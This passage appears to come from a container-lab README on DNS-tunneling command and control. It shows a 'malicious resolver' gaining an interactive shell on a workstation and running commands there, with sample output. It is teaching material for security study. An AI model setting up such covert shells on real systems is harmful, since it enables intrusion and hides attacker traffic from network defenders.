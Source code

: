 From here we can interactively control the two endpoints on our network. At this time, the router containers are acting are intermediate couriers that move packets across the network and do not need any extra control by us.

<table border='1'>
    <tr>
        <th><h3>Server (running <a href="/cybersecurity-containerlabs/command-control/dns_tunneling/server/malicious_resolver.py"><code>malcious_resolver.py</code></a>)</h3></th>
        <th><h3>Client (running <a href="/cybersecurity-containerlabs/command-control/dns_tunneling/client/dns_lookup.py"><code>dns_lookup.py</code></a>)</h3></th>
    </tr>
    <tr>
        <td width="50%">
            Start the malicious resolver.
            <pre>root@dns_server:/usr/src/app# python malicious_resolver.py</pre>
        </td>
        <td width="50%">
            Start DNS lookup requests.
            <pre>root@workstation-1:/usr/src/app# python dns_lookup.py</pre>
        </td>
    </tr>
    <tr>
        <td width="50%">
            Notice that we now have a shell and that the hostname of the endpoint we have a shell to is printed (ex. <code>workstation-1</code>).
            <pre>root@dns_server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> </pre>
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Now we can issue a command to run on the workstation endpoint (ex. <code>ls</code>).
            <pre>root@dns_server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt</pre>
        From here you can continue to issue commands until you are satisfied and want to terminate the DNS tunneling session.
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Lets try issuing the <code>exit</code> command to exit the shell. Our specific implementation does not allow for the <code>exit command</code> and instead we are told to use <code>CTRL+C</code>.
            <pre>root@dns_server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt
shell> exit
To exit, use CTRL+C.
shell> ^C